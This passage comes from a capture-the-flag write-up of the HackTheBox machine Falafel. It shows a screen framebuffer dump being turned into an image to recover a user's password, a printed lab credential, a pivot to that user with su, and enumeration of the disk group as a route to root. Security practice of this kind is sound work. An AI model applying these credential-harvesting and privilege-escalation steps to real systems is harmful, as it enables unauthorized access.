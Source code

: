 On my Kali machine, I execute the python script as described on the blog and open the image in `gimp`
```bash
root@kali:~/htb/falafel# code toteslegit.pl
root@kali:~/htb/falafel# chmod +x toteslegit.pl
root@kali:~/htb/falafel# ./toteslegit.pl 1176 885 < framebuffer.raw > framebuffer.png
pnmtopng: 5 colors found
root@kali:~/htb/falafel# gimp framebuffer.png  
```

And the result is beautiful ...
![htb-falafel17](/images/htb/falafel/htb-falafel17.png)

```bash
moshe@falafel:~$ su yossi
Password: 
yossi@falafel:/home/moshe$ 
```
<div class="alert alert-success"><strong>Success</strong><br>
User credentials - yossi:MoshePlzStopHackingMe! <br>
Pivoted to user <strong>yossi</strong>
</div>

Using the same technique as used before, I find the `disk` group provides a way forward.
```bash
yossi@falafel:~$ groups
yossi adm disk cdrom dip plugdev lpadmin sambashare
yossi@falafel:~$ find / -group disk 2> /dev/null
/dev/btrfs-control
/dev/sda5
/dev/sda2
/dev/sda1
/dev/sda
/dev/sg0
/dev/loop7
/dev/loop6
/dev/loop5
/dev/loop4
/dev/loop3
/dev/loop2
/dev/loop1
/dev/loop0
/dev/loop-control
```

